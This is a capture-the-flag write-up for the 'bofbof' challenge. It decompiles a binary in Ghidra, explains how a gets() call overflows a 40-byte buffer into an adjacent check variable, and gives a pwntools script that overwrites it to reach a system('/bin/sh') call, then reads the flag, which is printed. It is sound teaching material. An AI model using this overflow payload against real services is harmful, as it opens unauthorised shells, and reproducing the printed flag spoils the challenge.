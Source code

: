 # Solution to bofbof

After launching the docker, we can connect to the challenge using netcat (`nc localhost 4000`).

It looks quite normal, we get asked a question a give an answer, then the program stops.

## Analysing the file

Since we have the binary file, we can decompile it, I'm using Ghidra.

In Ghidra, we get the `main` function:

```C
undefined8 main(void)

{
  char local_38 [40];
  long local_10;
  
  local_10 = 0x4141414141414141;
  printf("Comment est votre blanquette ?\n>>> ");
  fflush(stdout);
  gets(local_38);
  if (local_10 != 0x4141414141414141) {
    if (local_10 == 0x1122334455667788) {
      vuln();
    }
    puts("Almost there!");
  }
  return 0;
}
```

The code is quite easy to read fortunately:
* We declare two variables, initialize the first one
* Store the input of the user in the second one 
* Checks the value of `local_10`
* Launch the `vuln` function

This `vuln` function seems quite suspicious, we check it out:

```C
void vuln(void)

{
  system("/bin/sh");
  exit(1);
}
```

So it opens a shell ! But how do we enter here ? 

## Exploiting the vulnerability

When we read the code, we assign a value to `local_10` and then check if it's equal to something else ? How is it possible ?

Well, when we look at `local_38`, we see that it was declared with a size of 40 bytes (`char local_38 [40]`), and the input of the user is stored in that variable.

But what happens if the input is bigger than 40 bytes ? This is a buffer overflow, and basically, all the excess of bytes given by the user will be written on top of the memory of the following objects.

Here, `local_10` was declared just after `local_38`, which means that the overflow made by `local_38` will we written in `local_10` !
In other words, if we write over 40 characters in input, the excess will overwrite the memory of `local_10`.

## Performing the buffer overflow

So now we know that we just need to write 40 random letters, and then a specific list of bytes to overwrite the value of `local_10`.

Based on the code, we see that the value needed to launch the `vuln` function is `0x1122334455667788`.

Written in bytes, this is simply `\x11\x22\x33\x44\x55\x66\x77\x88`, but it will be encoded using a little endian which means you have to give it reversed: `\x88\x77\x66\x55\x44\x33\x22\x11`.

If you have doubts, you can use the function `p64()` from *pwntools* which will do it properly.

Let's use Python to do our exploit:
```Python
from pwn import *

HOST, PORT = "127.0.0.1", 4000

r = remote(HOST, PORT)

trafic = r.recv()
print(trafic.decode())

r.sendline(b"a"*40 + b"\x88\x77\x66\x55\x44\x33\x22\x11")
r.interactive()
```

We initiate the connection in local host, then send a line containing 40 random letters, and our bytes !
Then, using the `interactive()` method, we can write in the terminal directly after this line.

We launch the code, and after the execution, we can write `cat flag.txt` to print the flag: `FCSC{ec30a448a777b571734d8d9e4036b3a6e87d1005446f80dffb26c3e4f5cd02ba}`